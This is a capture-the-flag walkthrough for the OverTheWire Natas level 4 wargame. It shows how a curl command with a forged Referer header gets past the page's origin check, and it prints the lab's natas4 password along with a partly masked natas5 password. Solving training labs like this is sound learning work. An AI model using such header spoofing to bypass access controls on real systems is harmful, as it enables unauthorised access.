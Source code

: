 # Natas Level 3 -> Level 4

## Description

Username: natas4  

URL:      http://natas4.natas.labs.overthewire.org

---

## Solution

Visit the url `http://natas4.natas.labs.overthewire.org` in the browser and we get a prompt for login.

Use the username `natas4` and the password obtained from the previous challenge.

After logging in we get a message saying "Access disallowed".

![](img/2022-03-06_23-35_home_page.png)

The message further goes on to say that authorized users need to come from "http://natas5.natas.labs.overthewire.org"

Checking the source code of the page does not give any new information.

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

Going back to the message, how does the browser know what page we came from ? Information like that is passed in the `http header`.  
The Mozilla developer site is a good resource for checking what headers are available. https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers. 

After reading through the headers we find what we are looking for.


```properties
Referer: The address of the previous web page from which a link to the currently requested page was followed.
```

The `Referer` header tells the page we visit where we came from.

So now we need to send a request to the natas4 page while setting our own `referer` value. We can do this using a command line tool `curl`.

`curl` is a tool for transferring data from or to a server and supports user authentication, cookies and setting header values.

Using this curl command we get the password.
```
curl --user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/
```

* `curl` 
* `--user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ` --authentication using username:password format
* `--referer http://natas5.natas.labs.overthewire.org/` --set the referer header to the natas5 url
* `http://natas4.natas.labs.overthewire.org/` the url we are visting.


Since `curl` is a command line program we get the html source code back.

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is iX6IOf**************************
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```


Assuming the correct referer is set we get the password.
```
Access granted. The password for natas5 is iX6IOf**************************
```